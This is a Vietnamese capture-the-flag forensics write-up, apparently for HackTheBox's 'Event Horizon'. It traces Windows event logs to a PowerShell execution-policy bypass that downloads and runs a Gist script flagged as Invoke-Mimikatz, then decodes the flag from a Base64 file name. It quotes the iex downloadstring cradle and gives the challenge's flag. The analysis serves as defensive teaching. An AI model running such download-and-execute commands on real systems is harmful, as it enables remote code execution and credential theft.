




# Challenge Event Horizon

## 1. Đầu vào challenge

Đầu vào challenge cung cấp nhiều file log `.evtx`.



---

## 2. Ưu tiên các file log dung lượng lớn

Vì số lượng file log nhiều,  liệt kê thử **50 file có dung lượng lớn nhất** 



---

## 3. Tập trung vào log liên quan tới PowerShell

Từ danh sách các file lớn, thử mở các file liên quan tới **PowerShell**, vì đây là nơi có khả năng ghi lại chi tiết các payload độc hại.

Cuối cùng, file:

```text
Microsoft-Windows-PowerShell%4Operational.evtx
```

cho thấy payload chi tiết nhất.



### Nhận xét

Trong log này có thể thấy rõ PowerShell được chạy với tham số:

```text
-ep bypass
```

và sử dụng chuỗi lệnh dạng:

```powershell
iex (new-object net.webclient).downloadstring(...)
```

để tải rồi thực thi một script từ **GitHub Gist**.

Khi script được nạp, **Windows Defender** phát hiện nội dung độc hại tại dòng khai báo:

```text
function Invoke-Mimikatz
```

và chặn thực thi với lỗi:

```text
ScriptContainedMaliciousContent
```
---

## 4. Tìm flag từ tên file `.ps1`

Nhìn kỹ hơn trong log thì thấy tên file `.ps1` là một chuỗi nhìn giống **Base64**. Vì vậy thử decode chuỗi đó ra.



Sau khi decode, thu được flag là:

```text
HTB{8Lu3_734m_F0r3v3R}
```

---

## 5. Flow phân tích

```text
nhiều file log .evtx
   |
   v
liệt kê các file log dung lượng lớn
   |
   v
ưu tiên mở các file liên quan tới PowerShell
   |
   v
xác định file Microsoft-Windows-PowerShell%4Operational.evtx
là file chứa payload chi tiết nhất
   |
   v
đọc command PowerShell trong log
   |
   v
thấy chuỗi:
iex (new-object net.webclient).downloadstring(...)
   |
   v
xác định script được tải từ GitHub Gist
   |
   v
nhận ra Defender chặn script tại đoạn Invoke-Mimikatz
với lỗi ScriptContainedMaliciousContent
   |
   v
quan sát thêm tên file .ps1
   |
   v
nhận ra tên file có dạng giống Base64
   |
   v
decode chuỗi đó
   |
   v
thu được flag
```
---